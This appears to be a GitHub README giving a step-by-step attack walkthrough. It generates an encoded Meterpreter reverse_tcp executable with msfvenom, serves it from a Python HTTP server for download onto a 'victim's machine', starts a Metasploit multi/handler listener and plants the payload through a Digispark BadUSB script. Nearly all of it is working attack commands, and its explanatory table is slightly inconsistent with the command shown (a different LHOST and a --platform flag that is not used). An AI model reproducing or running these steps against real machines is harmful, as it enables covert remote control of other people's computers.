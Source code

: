 ## TERMINAL-1. 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 4 -  msfconsole

STEP 5 -  msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=192.168.0.74 LPORT=4444 -i 10 -e x86/shikata_ga_nai -f exe -o payload.exe

______________________________________________________________________________________________________________________________________________________________________________________

Here's what each option in the command means:

|-a x86: set the architecture to x86

|–platform Windows: set the target platform to Windows

|-p windows/meterpreter/reverse_tcp: set the payload to a reverse TCP meterpreter

|LHOST=192.168.1.9: set the local host to 192.168.1.9

|LPORT=4444: set the local port to 4444

|-i 10: flag specifies the number of iterations for the encoder to use 	

|-e x86/shikata_ga_nai: encode the payload with the shikata_ga_nai encoder

|-f exe: output the payload as a Windows executable

|-o payload.exe: name the output file as payload.exe

______________________________________________________________________________________________________________________________________________________________________________________

payload will be generated. Open the file explorer in kali,

look for the payload then open a new terminal in that location where there is payload. 



## TERMINAL-2.



STEP 6 -  python3 -m http.server     (running a simple http server so that the payload can be downloaded on the victims machine.)



## now go back to the TERMINAL-1.



STEP 7 -  use exploit/multi/handler      (command designed for creating reverse shell connections.)

STEP 8 -  set payload windows/meterpreter/reverse_tcp   

STEP 9 -  set LHOST 192.168.0.74       (set LHOST <Kali Linux IP> which was given in the payload as well)

STEP 10 -  set LPORT 4444               (set LPORT <port> the same port number that was given while creating the payload)

STEP 11 -  exploit        (to run the commands you can use either "exploit" or "run" command)



## NOW YOU HAVE TO INSERT THE DIGISPARK ATTINY85 USB WITH THE REVERSE SHELL SCRIPT CREATED BY DEVILWHITE0 TO GET THE SUCESSFULLREVERSE SHELL. 



STEP 12 -  help       (to view the command that can be run after the sucessfull reverse shell of windows)


